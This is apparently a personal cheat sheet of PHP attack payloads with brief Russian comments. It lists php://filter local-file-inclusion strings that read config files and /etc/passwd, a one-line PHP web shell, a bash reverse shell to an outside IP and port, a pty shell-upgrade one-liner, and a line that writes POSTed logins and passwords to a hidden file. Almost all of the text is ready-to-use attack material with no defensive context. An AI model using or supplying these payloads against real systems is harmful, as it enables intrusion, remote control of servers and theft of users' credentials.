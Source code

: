 # PHP

# PHP filter

php://filter/convert.base64-encode/resource=config

image.php?img=php://filter/convert.base64-encode/resource=/etc/passwd

image.php?img=php://filter/resource=/etc/passwd

# CMD
    <?php system($_REQUEST['pwn']); ?>

  inddex.php?pwn=ls

# ReverseShell

<?php system ('bash -c "bash -i >& /dev/tcp/10.10.14.4/4444 0>&1"'); ?>

python -c 'import pty;pty.spawn('/bin/bash')'
# Запись в файл переменных

file_put_contents(".max", $_POST['log'] . ":" . $_POST['pwd'] . "\n" , FILE_APPEND);

#PHP server

php -S 127.0.0.1:80 и запускаем ето в том каталоге где лежит файл php

Передача параметров - $1
